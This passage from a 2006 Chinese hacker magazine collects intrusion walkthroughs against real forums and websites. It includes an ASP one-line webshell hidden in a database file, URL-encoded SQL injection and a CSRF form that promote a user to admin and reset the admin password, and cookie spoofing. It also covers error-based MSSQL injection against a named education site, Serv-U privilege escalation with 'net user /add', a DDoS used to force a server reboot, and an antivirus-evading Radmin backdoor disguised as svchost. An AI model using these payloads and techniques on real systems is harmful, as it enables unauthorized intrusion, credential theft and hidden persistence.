上面的代码很简单，大家一看就明白了。如果B站中加入这一段代码，那么所有访问B的都被重定向到B，这样B把自己都搭了进去——无法正常服务，而且B站的访问量还提高了——这可是实实在在的访问，比让大家不知不觉的访问好多了。在网上用框架盗链的也不少。

见，我也曾用类似www.target.com/some.php?id=1 select benchmark(10000000,md5(1))……这样的URL结合CST拖垮过别人的主机。
上面的代码不大通用，有的页面本身就是iframe页，攻击者改动一下照样拖死你，防御代码还可以改进如下

```html
<script>if (top!=http://www.mysite.com/index.html){top.location=http://www.mysite.com/;}</script>
```

这样如果嵌入这个页面的不是本站主页面就重定向，如果有多个页面要嵌入这个页面可以Select case。大家都是聪明人，我就不班门弄斧了。
这文章没很深的技术含量，也同样可用于反盗链，反域名劫持等，希望对大家有帮助。如果高手有更好的方法还请不吝赐教（以上代码均测试通过）。

## SCRIPT ATTACK
>栏目编辑）脚本小子	scriptboy@hacker.com.cn
脚本攻击 文/图 苏志鹏

适合读者：入侵爱好者、网管、脚本程序员
前置知识：无

### 重返动网总部


| 配置项 | 值 |
|---|---|
| 网站名称 | 动网先锋 |
| 网站地址 | http://www.dvbbs.net |
| 网站LOGO | http://www.dvbbs.net/logo.gif |
| 网站Banner | http://www.dvbbs.net/banner.gif |
| 网站简介 | 动网先锋是专业的网站系统提供商 |
| 站长姓名 | 苏志鹏 |
| 电子邮箱 | admin@dvbbs.net |
| QQ号码 | 172601678 |
| 网站语言 | 中文简体 |
| 是否允许注册 | 是 |
| 注册用户名限制 | 2-20位 |
| 注册密码最小长度 | 6位 |
| 注册密码最大长度 | 16位 |
| 是否允许同一Email注册不同用户 | 否 |
| 是否允许用户自定义头像 | 是 |

图2

五一期间，一个朋友在某群里求助如何上传木马到动网7.1，正好我闲着无聊，就答应去看看。去他给的地址看一看版本，动网已经升级到7.1了，以前经典的通过上传修改后缀为gif木马，再通过数据备份来还原木马的方法已经不行了。因为DVBBS 7.1在后台备份里面加了Access数据库检查，所以原来的gif图片会被过滤。呵呵，改进了这点，看来动网的开发人员安全意识还是不行，怎么能这样补漏洞呢？根本没有好好研究漏洞以及这个漏洞的延伸，以至于拿出补漏的做法，但问题根本没有解决！菜鸟们动下脑筋，怎样传马呢？多动脑有好处，别饭来伸手哦！
下面我就来说上传木马的过程。目标论坛是新建好的7.1，站长以为很安全或者还没时间维护，所以数据库路径是默认的。OK，直接下载！然后用辅臣数据库打开，找到DV_LOG，字段名里选l_content后面的关键字填上pass。找到了密码admin（具体找密码的方法可以看第4期的黑防文章）。下面就要用木马插入了，大家可以在光盘里找到这个工具。首先，我们要用到Access建立一个空的数据库，当然，里面写点数据也行。然后打开木马插入器。如图1所示。


图1

在要插入的程序代码里写上冰狐浪子网页木马的经典语句：

```html
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>eval(Request.form("#")+"")</SCRIPT>
```

然后在“文件选择”中选择你刚才新建好的空数据库，点“插入木马”，这样数据库里就有了ASP木马了，用了金山毒霸查了下，哈，没发现病毒！

好了，工具准备完毕，是上传的时候了！我用得到的密码admin登录动网后台，然后在上传文件格式那里添加后缀名.mdb。如图2所示。

随便在论坛用admin发一个帖子或者你编辑一下某人发过的帖子，然后上传确定。回到帖子一看，晕，上传后文件是这样的“Boardid=8&ID=10”，呵呵，没关系，我们直接在后台那里的上传文件管理里找到地址了，如图3所示。

| 类型 | 用户名 | 文件名 | 所属版块 |
|---|---|---|---|
| gif | admin | 2005-5-2005571332413.mdb | 汽车沟通 |

- 请选择要删除的文件，然后执行删除操作，制作过程较长所以未断开连接！
- 请及时整理文件保存到服务器上回收站，过期文件将不予以恢复！

图3

最后通过备份来还原我们的木马。如图4所示。


图4

最后通过冰狐浪子微型ASP后门客户端打开地址http://www.XXX.com/bbs/data/dvbbs/datain/log.asp，成功！如图5所示。
呵呵，因为五一快结束了，所以写得比较匆忙。在写完本稿后，正好碰上可爱的邮递员送来黑防，激动啊！再次感谢黑防给我知识和机会让我成长，谢谢！


图5

www.hacker.com.cn
2006精华奉献本 下册


## SCRIPT ATTACK
》栏目编辑/脚本小子/scriptaboy@hacker.com.cn

适合读者: 脚本入侵爱好者、网管、脚本程序员
前置知识: ASP编程基础

### 动网7.1漏洞惊现江湖


文/图 likez

近日发现堪称“洞网”的动网论坛又惊爆注入漏洞。漏洞不仅影响到DVBBS 7.0.0 SP2，连最新的7.1.0版本也受到影响，漏洞产生于admin_postings.asp文件。对于7.0.0版本，一个超级斑竹，或者前台管理员可以使用此漏洞提升权限，7.1.0仅限于前台管理员。下面我们就以7.0.0版为例，实战一下漏洞的利用方法。

首先选择一个没有总固顶和区域固顶的版面，找个偏僻的，没人去的版面。我以前台管理员的身份进行注入测试，打开版面中的一个帖子，点击下面的设置固顶，如图1所示。


按正常固顶操作，然后确认，如图2所示。

这时候打开WSE准备截取数据包，然后点击确认操作，看看WSE截到什么东西，如图3所示。截取到如下的数据包：


```
POST /admin_postings.asp?action=istop HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, application/x-shockwave-flash, */*
```


```
Referer: http://172.18.18.87/admin_postings.asp?action=istop
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 172.18.18.87
Content-Length: 134
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: The+Cool+Site=Iao=24; cardnumber=%7C1%7C; gbtobystyle=border=6; zyml=c2=%23F9F8F2&tbottom=+&tinfo=%3Ctable+align%3Dcenter+border%3D1+cellpadding%3D0+cellspacing%3D0+style%3D%22border%3D1+cellpadding%3D0+cellspacing%3D0+style%3D%22border%3D1+cellpadding%3D0+cellspacing%3D0+style%3D%22border%3D1+cellpadding%3D0+cellspacing%3D0+style%3D%22border%3D1+cellpadding%3D0+cellspacing%3D0+style%3D%22border%3D0+src%3Dpic%2Flogo%2Egif%3E%3C%2Fa%3E%3C%2Fp%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftable%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftable%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftable%3E&cl=%23799AE8&lbw=97%25&tto=+&tbg=pic%2Fstyle%2Fgif%2Egif&info=+; TZ=0; VisitNum=12; List=islist=1; ; edvbbsdvbs=7%2E1%2E0&ac=UserID=1&usercookies=2&StatUserID=178305485&userclass=%B9%DC%C0%ED%D4%B1&username=admin&password=s83a621664+5v6HK&userhidden=2; 172%2E18%2E18%2E87%2F=UserID=1&usercookies=0&StatUserID=174275543&userclass=%B9%DC%C0%ED%D4%B1&username=admin&password=CgWJAmL9970vB057&userhidden=2; ASPSSIONIDXXXXXXGIIMG=K1ICD10OKBGHIDLOOIEBBKNPDIL; upNum=0; Dvbbs=
```

istopaction=1&boardid=3&id=14&title=&content=1&doWealth=0&dousercp=0&douserp=0&msg=&msgsm=&getboard=3& submit=%C8%B7%C8%CF%B2%D9%D7%F7

好了，我们修改其中的Content-Length和getboard两项，Content-Length我没有仔细计算，你可以随便写个大点的数据就可以了，比如改成300就已经足够了，其中的getboard我们填写‘2,2);update [dv_user] set usergroupid=1 where userid=888;--’。注意这里先要对这个字符串进行Unicode编码，再写在getboard=后面，编码后代码如下：

```
%32%2C%32%29%3B%75%70%64%61%74%65%20%5B%64%76%5F%75%73%65%72%5D%20%73%65%74%20%75%73%65%72%67%72%6F%75%70%69%64%3D%31%20%77%68%65%72%65%20%75%73%65%72%69%64%3D%38%38%38%3B%2D%2D
```

修改后我们使用NC提交上去，如图4所示。


www.hacker.com.cn
2006精华本 下册

## SCRIPT ATTACK

]栏目编辑:脚本小子<scriptsboy@hacker.com.cn

我把输出结果重定向到e:\4.htm,打开这个文件看看吧,如图5所示。


图5

哈哈,我们加入的语句执行了,输出了getBord的值。我们插入语句的后就是数据库操作了:

```
Set Rs=DvDbs.Execute("Select BoardID,BoardTopStr From Dv_Board Where BoardID In ("&Request("getBoard")&")")
```

注入条件太宽松了,没有任何的限制,爽吧?这是第一步。

听说Dvbbs.Execute()函数过滤了DV_admin字符串,没办法更新后台管理员账号,那我们就看看这个函数吧!在inc/Dv_ClsMain.asp中有如下代码

```
Public Function Execute(Command)
If Not IsObject(Conn) Then ConnectionDatabase
' 检查权限,防止注入攻击。
If InStr(LCase(Command),"dv_admin")>0 And Left(ScriptName,6)<> "admin_" Then
    If savelog=1 Then
        Response.Write SaveSQLLOG(Command,"")
    End If
    Command=Replace(LCase(Command),"dv_admin","dv"&Chr(95)&"<i></i>admin")
End If
If IsDebug = 0 Then
On Error Resume Next
Set Execute = Conn.Execute(Command)
If Err Then
    err.Clear
    Set Conn = Nothing
    If savelog=1 Then
        Response.Write SaveSQLLOG(Command,"查询数据的时候发现错误,请检查您的查询代码是否正确。<br>基于安全的理由,只显示本信息,要查看详细的错误信息,请修改您的程序文件conn.asp。把""Const IsDebug = 0""改为:""Const IsDebug = 1""")
    Else
        Response.Write "查询数据的时候发现错误,请检查您的查询代码是否正确。"
    End If
    Response.End
End If
Else
    'Response.Write command & "<br>"
    Set Execute = Conn.Execute(Command)
End If
SqlQueryNum = SqlQueryNum+1
End Function
```

好像是经过了过滤,仔细看看,发现Left(ScriptName,6)<> "admin_"条件是不满足的,因为我们提交的地址admin_postings.asp含有admin_字符串。所以并没有过滤dv_admin,大家可以放心的构造各种查询语句了。注意这第二步就可以实现很多我们想做的事了!

由于这个漏洞利用起来需要一定的权限,我们可以结合其他的漏洞来获得前台管理员或者是超级斑竹的Cookie信息,使用Cookie欺骗达到提升权限的目的。比如7.0.0版本的短消息漏洞,给管理员发送包含恶意代码的短消息来取得前台管理员的权限。当然利用IE跨域漏洞也能达到相同效果,在实际测试中要靠大家灵活运用。

以上是在DVBBS 7.0.0SP2 Access版本上的实验,下面我们在SQL版上小试牛刀,我在本机安装了DVBBS 7.0.0 SP2 SQL版本。为了调试程序,首先打开Dv_ClsMain.asp修改其中的Execute函数,使得我们可以透明地看到执行的语句。代码如下:

```
Public Function Execute(Command)
If Not IsObject(Conn) Then ConnectionDatabase
' 检查权限,防止注入攻击。
If InStr(LCase(Command),"dv_admin")>0 And Left(ScriptName,6)<> "admin_" Then
    If savelog=1 Then
        Response.Write SaveSQLLOG(Command,"")
    End If
    Command=Replace(LCase(Command),"dv_admin","dv"&Chr(95)&"<i></i>admin")
End If
If IsDebug = 0 Then
On Error Resume Next
Set Execute = Conn.Execute(Command)
If Err Then
    err.Clear
    Set Conn = Nothing
    If savelog=1 Then
        Response.Write SaveSQLLOG(Command,"查询数据的时候发现错误,请检查您的查询代码是否正确。<br>基于安全的理由,只显示本信息,要查看详细的错误信息,请修改您的程序文件conn.asp。把""Const IsDebug = 0""改为:""Const IsDebug = 1""")
    Else
        Response.Write "查询数据的时候发现错误,请检查您的查询代码是否正确。"
    End If
    Response.End
End If
Else
    'Response.Write command & "<br>"
    If InStr(LCase(Command),"^:")>0 then
        Response.Write command & "<br>"
        response.end
    end if
    Set Execute = Conn.Execute(Command)
End If
SqlQueryNum = SqlQueryNum+1
End Function
```

按照以上对Access版本的注入方法,抓包、修改、提交,看看返回的数据,如图6所示。

查询语句看来没有问题,先打开SQL查询分析器看看userid=3的用户的usergroupid是多少,如图7所示。

把Execute()中加入的几句注释掉,提交数据包,再使用查询分析器看看修改成功了没,如图8所示。

多么令人兴奋的结果啊!我们注入的语句执行了,注入成功,完结了DVBBS 7.0.0 SP2半年来不死的神话!

这里要特别注意的是,一定要保证提交的board id中

www.hacker.com.cn
2006精华奉献本 下册

## SCRIPT ATTACK

》栏目编辑)脚本小子<scriptboy@hacker.com.cn


图6


图7


图8

没有总固顶和区域固顶的帖子,否则是不会成功的,比如我们再将以上修改过的数据包重复提交一次,则会返回以下的错误,如图9所示。因为这个版面中已经有了我们刚总固顶的帖子了。


成功后如图10所示。

图10

看这个URL:
http://172.18.18.87/showerr.asp?action=OtherErr&ErrCodes=

其中的ErrCodes后面是我们要执行的代码,下面是我已经写好的实现注入的代码

```
http://172.18.18.87/showerr.asp?action=OtherErr&ErrCodes=<form name="redir" action="http://172.18.18.87/admin_postings.asp?action=istop" method="post"><INPUT type=hidden name="istopaction" value="1"><INPUT type=hidden name="boardID" value="31"><INPUT type=hidden name="ID" value="17"><INPUT type=hidden name="content" value="1"><INPUT type=hidden name="getboard" value="2,3);update [dv_user] set usergroupid=1 where userid=3;--"></form><script LANGUAGE=javascript>redir.submit();</script>
```

有点长,如果我们有一个账号拥有总固顶的权限(无论是使用Cookie欺骗,还是社会工程学得到),登录论坛后,在地址栏提交以上代码,都可以提升权限了。注意其中的论坛地址和提交的参数大家根据自己的要求稍微修改一下就可以使用了。

在论坛中,如果我们没有总固顶权限的账号,只要我们千方百计让管理员点击上面的连接也能让管理员给咱提升权限。当然,如果管理员登录的时候选择保存Cookie的话,我们就可以将这段代码使用iframe插入到作好的网页中,最好改名为.gif,然后到论坛中大肆宣扬“管理员快来看看啊,你的网站被黑啦,这个是截图……”,一般的管理员都会来看看,他访问的同时就给我们提升权限了。

这个方法应该是最简单的漏洞利用方法了,应该注意的是这个代码只能使用一次,如果我们再想更改后台密码的话,就得重新更换boardid。其实我们将提升前台管理员和更改后台管理密码的语句写到一起就只需提交一次了:

```
getboard=2',3);update [dv_user] set usergroupid=1 where userid=你账号的id;update [dv_admin] set password='469e80d32c0559f8' where username='admin';--
```

这样就把后台密码改为admin888了。一个语句搞定!
最后说明一下,在DVBBS 7.1.0中,依然存在这个漏洞,只不过过滤了“'”,需要变换一下注入语句。根据我以上的分析,大家可以自己去试一下,你会发现原来寻找漏洞是多么快乐和令人兴奋的事情。

使用上面的方法大家一定感觉太烦琐了吧?现在跟大家介绍一个简单的方法:由于Dvbbs.ChkPost()函数的存在,我们无法将Post方式改为Get方式,我们看看Chkpost()函数的代码

```
Public Function ChkPost()
    Dim server_v1,server_v2
    Chkpost=False
    server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
    server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
    If Mid(server_v1,8,len(server_v2))=server_v2 Then Chkpost=True
End Function
```

根据这个函数,结合DVBBS的跨站漏洞,漏洞利用

2006 精华奉献本 下册

## SCRIPT ATTACK
>栏目编辑)脚本小子(scriptboy@hacker.com.cn)

脚本小子: Cookies欺骗我们已经见过不少了,这次出现这个漏洞的是LeadBBS V3.14美化插件版,通过测试我们可以利用Cookies欺骗得到管理员权限,直接获取WebShell。

适合读者: 脚本爱好者,入侵爱好者
前置知识: ASP代码基本阅读能力

### Cookies欺骗操控LeadBBS

文/图 lucky bird

打开QQ就收到好友的留言,告知Leadbbs有漏洞了。
赶紧登录朋友留下的地址,仔细看后,发现和当年的动网6.0漏洞一样,虽然修改的形式不一样,但都是Cookies欺骗。唯一的不同是这次可以直接登录后台!

这个漏洞是针对美化版的,我拿LeadBBS非美化插件版的测试,进后台屡试屡错,还是去网上找现成的吧!我在搜索引擎下搜索下列关键字:“LeadBBS V3.14美化插件版”,好多啊!找了个论坛,注册用户“test99”,登录自己的控制面板,如图1所示。注意左边的“论坛信息”下的“论坛管理团队”,点击它,进去看看!如图2所示。


看见管理团队的名单了吗?我们就拿Admin这个ID下手吧!拿出我们的工具:黑客必备浏览器minibrowser.exe。打开它,把论坛地址输入,到了刚才的论坛,重新登录。我们这里直接返回首页,不返回的话在这里改Cookies是不成功的。在主页处,选择浏览器上面的工具栏“Cookies (5)”,如图3所示。


注意user=test99,那里是我们登录的ID,


也是要修改的地方!我们把它改成user=Admin,如图4所示。

然后点浏览器左上角的“Get”(在图3左上角可看到)。如果不行再点“Get”旁边的“Post”,再点回“Get”,此时成功欺骗了!如图5所示。


呵呵!登录前台!怎样?不难吧?!下面进入后台。在浏览器的地址上输入http://www.target.com/leadbbs/manage/,找到后台登录地址(有些论坛后台地址是http://bbs.target.com/manage/),如图6所示。


这里的密码输入自己注册ID的密码,可别忘记填写验证码,然后点登录。如图7所示。


出现了“此功能只有管理员才能操作”,别担心:Follow me。再次“Get”和“Post”就可以直接进入后台了。

这个论坛的Admin好像已经不被允许进入后台了,因为我多次Get和Post都不能直接进入后台。当时真灰心,想放弃时,突然想到我在入侵其它leadbbs时,有时发现Admin这个ID被删除了。那么这个论坛的ID也被降权了?大家重新看图1,发现管理团队中叫“铃X”的排在第1,而“Admin”排在第2。

黑客手册 2006精华季版本 下册 185


呵呵，我们用“铃X”这个ID重复刚才的操作，到后台登录处后。输入“铃X”，填写好密码和验证码。确定，然后出现图7，一次Get和Post后，出现如图8所示的情况了！


哈哈，看见了吧？后台进入了！拿出事先准备好的木马，先到左边的“上传参数设定”里设置一下，如图9所示。


在后面加上了.asp和.asf(这个是为上传自己的电影，把它当免费空间了！)，不过“.asp”后面是有空格的，不然会提示不可以修改，我们在上传时也要在扩展名后多打一个空格。

聪明的读者也许会问为什么不像黑防实验室那样入侵动网后，把木马改为jpg，再通过数据库备份文件为ASP？因为Leadbbs是不可以备份单个文件的，所以此路不通。

有攻也有防，下面我们来看看如何防止被Cookies欺骗。其实官方近期提供的几个更新，都包含有inc/Board_Popfun.asp文件的更新，更新了此文件也就没有了这个问题。

打开inc/Board_Popfun.asp文件，找到代码

```
Exit Function
Else
If SubmitFlag = "#ddddls-+++" Then
```

在Exit Function上面插入两行代码

```
Set Session(DEF_MasterCookies & "UDT") = Nothing
Session(DEF_MasterCookies & "UDT") = ""
```

问题就这么解决了，如果发现已经存在此两行代码的，则表示你的论坛无此问题。

脚本小子：最早从耍饭的CSC到一度广受关注的NBSI，不断涌现的SQL工具让我们在入侵中方便了许多，但工具终究是死的，人才是活的，我们在用工具轻松拿到管理员密码的同时不要忘了：工具扫不出来的漏洞你自己也可以去发掘。

适合读者：脚本安全爱好者，入侵爱好者、网管
前置知识：ASP脚本安全

### 插入式注入搞定

#### 黑客在线

图/文 越南邻国首相

随着SQL注入工具的增加，通过注入被入侵的网站多了，那些明显存在注入漏洞的网站越来越少。勇哥们最近搞了个搜索型注入，算是为大家开了一个新战场。可那些用工具找不出漏洞的网站，就真的安全吗？其实你找到突破点就会发现，他们的安全性其实更差！我今天就来谈谈混合型数据的SQL注入问题。

先看这样一个网站。

黑龙江教育在线：

```
http://www.hljedu.net/gaokao/ReadNews.asp?NewsID=3255&BigClassName=&BigClassID=21&SmallClassID=42&SpecialID=0
```

这里面一长串数据，习惯性在后面加个“’”，正常显示，加上“and 1=2”上去也正常显示。

试着在Newsid=3255后面插入“’”，结果报错，如图1所示。


> “Microsoft OLE DB Provider for SQL Server 错误 '80040e14'

明显存在注入漏洞，还是SQL数据库！我一下来了兴趣。因为如果是SA权限的话，可以运行系统命令。拿出小子明最新工具旁注3.2来进行注入，结果大失所望，提示无法注入，如图2所示。

试了NBSI2，HDSI等多个注入工具，都无法注入。试了一下，在其他几个参数后加入任何注入语句，均正常返回没有反应，所以关键数据只有一项。于是，试着将后面的参数去掉，变成www.hljedu.net/gaokao/ReadNews.asp?NewsID=3255这样的语句，但仍不行，去掉后网站跟


www.hacker.com.cn
2006 精华奉献本 下册

## SCRIPT ATTACK

栏目编辑/脚本小子/scriptboy@hacker.com.cn


本无法访问。可见其它项也得与之相匹配。如图3 所示。
分析了一下,上面这类网址的ASP后面跟有多项数据,各项数据类型也不完全相同,有的是数字型,有的则是字符型等,混合在一起,比如


www.nhyz.org/ReadNews.asp?NewsID=7235&bigclassname=新闻中心&bigclassname=教育信息&smallclassname=教育新闻

我把这种参数合用的情形,暂时称为混合型数据,而能加入注入语句的往往在第一个,也就是注入数据只能在中间插入,我称之为注入式注入。目前的工具都无法在中间插入注入语句。其实,在编程上是容易实现的,将网址从中间分开,把后面一部分作为不变的一个附加数据附在注入语句后面就可以了。但没有一个工具考虑到这一点,看来大家对这类混合型数据的注入还没有注意。既然工具不行,我就还是像以前一样用手工注入吧。先看看权限如何?在中间插入注入语句:
Newsid=3255;and 1=1;user>0
提交后暴出了如下提示:

将 nvarchar 值 'web113483' 转换为数据类型为 int 的列时发生语法错误。意思是当前用户的名字是“web113483”,看来只是一个普通权限的用户DB_OWNER。如图4所示。


如果暴出的是“将“dbo”转换成int 的列发生错误”,则表示当前数据库用户是SA,那权限就相当大了。顺便说一下,我最先发现的一个就是一个SA权限的网站,但我怕公布。这个网站是我特意找来的。呵呵。MSSQL数据库的好处就是,不用一个个的猜,可以直接暴出你想要的东东,这里正好复习一下SQL注入的相关语句。
下面就是来暴出数据库了。在Newsid=3255后面插入

" and db_name()>0",提交后得到如下结果:

```
Microsoft OLE DB Provider for SQL Server 错误 '80040e07'
将 nvarchar 值 'www_hlj edu_net' 转换为数据类型为 int 的列时发生语法错误。
/goakao/ReadNews.asp, 行 13
```

呵呵,数据库是www_hljedu_net,要是猜够你猜的了。接下来当然是暴表了:

在Newsid=3255后面插入 "and (select top 1 name from www_hljedu_net.dbo.sysobjects where xtype='U' and status>0)>0"

得到如下结果:

```
将 nvarchar 值 'ReView' 转换为数据类型为 int 的列时发生语法错误。
```

这样就暴出了第一个表ReView。接下来插入 "and (select top 1 name from www_hljedu_net.dbo.sysobjects where xtype='U' and status>0 and name not in ('ReView'))>0"

就得到了第二个表“admin”: 将 nvarchar 值 'Admin' 转换为数据类型为 int 的列时发生语法错误。
依次将得到的表名加入name not in('ReView','admin')中,可以得到所有的表,当然我们的目标是找管理员,找到了admin就够了。其实还有一种猜的办法,插入" and (select count(*) from admin)>0" 正常返回表示有admin表。同Access猜表一样。这样就不用一个个暴表了。但猜不中时就得暴表了。下面我就用猜的办法试试,插入: and (select count(username) from admin)>0 结果提示出错“列名 'username'无效。”看来猜并不好猜,所以能暴当然要暴了。
插入语句"and (select top 1 col_name(object_id('admin'),1) from admin)>0",提交后,暴出第一个字段名为“ID”。然后将括号中的1换成2,插入语句" and (select top 1 col_name(object_id('admin'),2) from admin)>0",提交后得到如下结果

```
将 nvarchar 值 'AdminUID' 转换为数据类型为 int 的列时发生语法错误。
```

同样也得到“AdminPWD”。如图5所示。


如果前面表名字段名可以猜的话,现在要猜用户名和密码就要难得多。因为没有通用的。所以能用暴值法那是一定要用的。
先猜用户名。
插入注入语句 and (select top 1 AdminUID from admin)>0。提交后轻易就暴出了管理员的名字: hljedu。
将nvarchar值'hljedu'转换为数据类型为int的列时发生语法错误。如图6所示。
将上面语句中的AdminUID换成AdminPWD,变成and

www.hacker.com.cn
2006 精华奉献本 下册
邮发代号 82-27

## SCRIPT ATTACK

> 栏目编辑/脚本小子|scriptboy@hacker.com.cn


(select top 1 AdminPWD from admin)>0,插入网址中注入后得到密码 hljeduwrp。

到此,我们的所有的猜解工作完成了。可以去登录后台了。什么?你说不知道后台在哪?那这半天工作不是白做了!有不少人光顾搞注入,结果得到密码后才发现找不到后台,英雄无用武之地。我的习惯是一定要先找到后台再进行注入的。不然有时就是白忙活了。

这个网站的后台最好找了,直接加个admin就出来了。看,我已经进入后台了。如图7所示。

其实,文章到这里应该就完了,手工操作复习了一次SQL的注入技巧。但我仍不甘心,想自己何不编一个可以插入式注入的工具呢。在分析网址特点的时候,突然想


到,这些参数是用于查询的,应该是没有严格的先后顺序的,能不能把次序倒一下呢?理论上应该是可行的。成不成得经过测试才能证明。结果倒了顺序后仍能正常访问,而且带来一个最大的好处,注入工具提标可以注入了,使用明小子的工具很快就找出了管理员密码。

唉,早知道这样,何必劳我动手累半天。但也引起我的担心,就是网上这样的注入漏洞站太多了,而且多是政府网站和新闻网站,我犹豫了一个月,才动手写作。这个网站也是我新选择后现抓的图。 ///

脚本小子:江民杀毒的官方网站被侵入并修改页面的事,引起喧然大波。这一次又有一家叫光华的反病毒企业被人拿了网站管理员权限,不过这次入侵者可没有改人家的首页,哈哈,原来是想免费杀毒,不过各个杀毒软件公司要注意了,你们的网站安全可是非常重要的。

适合读者:脚本爱好者,入侵爱好者,网管
前置知识:SQL注入基本概念

### 茼蒿菜网

文/图 showlife [E.S.T]

黑防5月刊上有一篇文章叫“免费在线杀毒我用光华反毒”,闲得无聊我就想给他们测试一下,网址:http://www.viruschina.com,看了下网站程序,问题并不大,想想还是得靠旁注,拿出好友明小子最新出的3.2。如图1所示。

扫描后缀,看看有没有可能存在有漏洞的程序,最好有upfile_soft.asp。扫了下竟然没有找到任何符合的后缀,那没办法了一个个看吧,看看能不能找到注入点,进后台然后再想想有没有办法得到WebShell。如图2所示。


这台服务器上有6个站,老规矩导入这些网址批量

找到了个站有注入点,右击进入SQL 猜解,得到用户名&密码。如图3所示。

密码是16位MD5加密的,想想还是先算了,看看其

www.hacker.com.cn
2006 精华本 下册

## SCRIPT ATTACK

栏目编辑/脚本小子/scriptboy@hacker.com.cn


他站点有没有注入点再说吧,找了半天没发现,看来只有搞这个站了,拿出MD5CrackV2.2(虽然版本已经出到v3.1,但我不想下去,就还用这个吧),大胆的猜测下密码是全数字的,设置好开始破解,看运气了!如图4所示。


跑得还挺快,果然是数字的,还是6位的。找到登录地址http://www.ritan.org/admin_index.asp登录成功!直接进入论坛,想想不如试试用这个用户名&密码能不能进入后台管理,要是能进WebShell不就有了吗。
天哪!运气怎么这么好,竟然进去了,"爽"啊!WebShell有了,找到"班级相册"那里一定能上传图片的,把木马改成.jpg上传成功了。如图5所示。


进入后台数据库备份,得到WebShell,如图6所示。


登录WebShell成功,先来看看CMD能不能运行。如图7所示。


限制了!再来看看服务器运行的系统服务。如图8所示。


如图可以看到它的Serv-u的路径,我们跳转到d:\data\vcn\FtpServer\Serv-u目录看看有没有编辑Servudaemon.ini的权限。如图9所示。


黑客手册 2006 精华奉献本 下册 www.hacker.com.cn

## SCRIPT ATTACK

> 栏目编辑")脚本小子")scriptboy@hacker.com.cn

如图我加了一个:user12=showlife|1|0:

```
[USER=showlife1]
Password= (空)
Homedir=d:\data\vcn
Timeout=600
Maintenance=system
Note1=" wizard generated account "
Acc1ess1=d:\data\vcn\RLPWAMCD
```

意思让账户拥有SYSTEM的权限,不过要让它生效得让服务器重启,再去看看它有其它可以提升权限的可能,找到了remote不过密码通过RSS加密,破解不可能,罪过啊罪过,难道真要DDOS!没办法看来只能这样了,找了N台肉鸡D,果然服务器重启了,生效!

```
然后 FTP login quote site exec net user showlife 888888 /add
Quote site exec net localgroup administrators showlife /add
...
```

提升了权限,下面来看看www.viruschina.com 的目录吧,放在了d:\data目录下找到了它的主页。如图10所示。


呵呵,搞定了,赶快提醒管理员吧,我还想以后免费杀毒呢!

适合读者:脚本爱好者,入侵爱好者
前置知识:无

### 对华南X大学的
### 七连环入侵

文/图 Wisdom


本文较长,给出主要涉及内容。1.域服务器的入侵。2.Radmin的免杀和替换服务式安装。3.正版瑞星ID获取。4.G6ftp server利用。5.WebShell提权。6.findpass2003。7.局域网嗅探。8.窗口隐藏。9.MS04-007漏洞利用。10.candyproxy制作免杀代理。

近日逛学校的网站发现很多ASP的程序都是较旧的程序,估计许多都还存在注入漏洞,于是决定检测一下。就从人气最旺的二手市场开始吧。结果用小榕Wed顺利破解出管理员用户密码,用图片上传功能顺利上传了加密过的海阳ASP木马。如图1所示。


得到了WebShell下一步就是想办法提升权限了。在它硬盘上找到一个SQL连接文件,是一个VOD系统的。如图2所示。


#### 第一环 域的入侵

有了sa密码马上拿出SQLexec连接顺利连上。如图3、图4所示。
这时我发现“登录到”里有两个选项:一个是本机,


另一个开始我不知道是什么。后来经过查资料知道这部机是某个“域”里的成员。这时我想起在SQLexec里用quser看到已经登录的用户名用net user没发现。原来这个用户名是这服务器所在域的用户名。就是说用刚才findpass出来的用户名密码登录时,选本机是登录不了的。只有选“域”名才行。
后来我发现这服务器上登录的域用户原来是Domain Admins里的成员。如图5所示。所以对这服务器也有管理员权限,既然是域成员,应该跟其他非域成员有点不同。最后在网上邻居里发现一个用域命名的组。进去后如图6所示。
可以看到整个域的成员。这时我想,我登录的这个账户是域管理员组里的。那么对其他域成员也应该有管

www.hacker.com.cn
黑客X档案 2006精华本 下册


## SCRIPT ATTACK
》栏目编辑: 脚本小子(scriptboy@hacker.com.cn)


理员权限,想到这怀着激动心情ping出每个域成员的IP用终端连接器试着连接。很幸运都开了终端服务,都可以以域管理员身份登录!有一台为域控制器。如图7所示。


进来的第一件事就是留个后门了。我用得最多的就是Radmin。也许太多人用了现在已经被Norton等几个杀毒软件定为病毒了。不过我的是经我精心改装过的Radmin。它不仅免杀还免安装。只需要导入一个注册表文件和一个net start的命令即可。下面我将详细介绍它的制作。

1. 在本机安装好Radmin2.1版。注意一定要安装服务端,客户端为Radmin.exe服务端为r_server.exe下面就对他们脱壳。
我用的是Quick Unpack v0.6。如图8所示。


Quick unpack分析出r_server.exe是用ASPack2.12加的壳。这时我们不能马上点立即脱壳。否则会提示OEP错误。正确做法应该是打开文件以后点击代码左边的按钮,这时Quick unpack会自动分析出被打开程序OEP。之后再点击立即脱壳。如图9所示。
按同样方法脱去Radmin.exe的壳,两个都脱壳以后


就可以加上罕见一点的壳了,我用的是FSG。加了新壳就不怕杀毒软件了,我把r_server.exe改名为svchost.exe。
2. 在本机设置好连接密码和端口。导出注册表HKEY_LOCAL_MACHINE\SYSTEM\RAdmin记为1.reg。
3. 制作替换系统服务的注册表:找到注册表位置HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\r_server修改ImagePath的值为"c:\winnt\system\svchost.exe"/service.导出为2.reg用记事本打开。我们这里要替换的服务为ALG。它的作用是为双网卡共享上网提供支持的。它默认是手动启动的,一般服务器没开。如图10所示。
把2.reg中的r_server替换为ALG。"Remote Administrator Service"替换为"Application Layer Gateway Service"。如图11所示。
4. 把1.reg和2.reg合并为一个注册表文件rad.reg。
5. 上传我们制作好的rad.reg,radmin.exe,svchost.exe,raddrv.dll,admdll.dll到system目录下。
